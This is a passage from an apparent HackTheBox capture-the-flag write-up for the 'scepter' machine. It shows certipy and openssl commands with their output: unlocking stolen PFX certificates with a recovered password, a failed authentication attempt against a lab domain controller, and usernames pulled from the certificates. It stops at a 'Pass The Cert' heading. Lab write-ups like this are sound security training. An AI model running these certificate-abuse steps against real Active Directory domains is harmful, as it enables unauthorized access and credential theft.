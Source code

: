The `newpassword` also valid for `scott.pfx` and `lewis.pfx` files.
Extract the unprotected `pfx` files and than try to authenticate.

```bash
┌──(venv)─(root㉿kali2025)-[~/Desktop/HackTheBox/machines/scepter]
└─# certipy cert -password newpassword -pfx nfsshare/clark.pfx -out clark_extracted.pfx
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Data written to 'clark_extracted.pfx'
[*] Writing certificate and private key to 'clark_extracted.pfx'

┌──(venv)─(root㉿kali2025)-[~/Desktop/HackTheBox/machines/scepter]
└─# file clark_extracted.pfx 
clark_extracted.pfx: PEM certificate

┌──(venv)─(root㉿kali2025)-[~/Desktop/HackTheBox/machines/scepter]
└─# less clark_extracted.pfx 

┌──(venv)─(root㉿kali2025)-[~/Desktop/HackTheBox/machines/scepter]
└─# certipy auth -pfx clark_extracted.pfx -dc-ip 10.10.11.65
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[-] Failed to load PFX file: Could not deserialize PKCS12 data
[-] Authentication failed: Could not deserialize PKCS12 data
[-] Use -debug to print a stacktrace

```

The other `pfx` files also doesn't valid for authenticate.
Gathering usernames from `pfx` files.

```bash
openssl pkcs12 -in clark.pfx -info -text -nodes -passin pass:newpassword                   
MAC: sha256, Iteration 2048                                                                   
MAC length: 32, salt length: 8                                                                
PKCS7 Encrypted data: PBES2, PBKDF2, AES-256-CBC, Iteration 2048, PRF hmacWithSHA256
Certificate bag                                                                               
Bag Attributes                                                                                
    localKeyID: E1 84 EA CC 0B 68 19 40 D4 CA 6B 14 C1 8E 9E 30 E7 AA 48 B4 
subject=DC=htb, DC=scepter, CN=Users, CN=m.clark                
issuer=DC=htb, DC=scepter, CN=scepter-DC01-CA              
```

The usernames:

```text
m.clark
e.lewis
o.scott
d.baker
```


## Pass The Cert
